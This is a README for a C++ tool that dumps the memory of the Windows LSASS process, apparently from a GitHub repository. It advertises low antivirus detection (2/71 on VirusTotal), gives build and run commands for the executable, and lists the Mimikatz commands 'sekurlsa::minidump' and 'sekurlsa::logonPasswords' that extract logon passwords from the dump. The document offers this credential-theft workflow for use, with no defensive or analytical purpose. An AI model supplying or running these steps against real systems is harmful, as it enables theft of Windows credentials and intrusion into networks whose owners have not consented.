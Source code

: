 # LSASS Dumper
Simple LSASS Dumper created using C++ as an alternative to using Mimikatz memory dumper.

NOTE: You still need Mimikatz installed to read the dumped data. This program only dumps the data.

VirusTotal Scan Results: 2/71 when running against the executable build (For personal/experimental use only)

## Usage
The easiest way to build the executable is to just run the `Dump.cpp` file in Visual Studio, but if you prefer `g++`, that should work too.

After compiling the code into an executable, run it!

You can run the executable either way:
```powershell
> ./Dump.exe
or
> ./Dump.exe Output.txt
```
NOTE: If no argument is specified, your file will be `HOSTNAME_M_D_YYYY.txt`

Here are the commands you will need to use in Mimikatz to access the dumped data:
```powershell
> mimikatz # This will start the program
mimikatz$ sekurlsa::minidump <FileName>
mimikatz$ sekurlsa::logonPasswords
```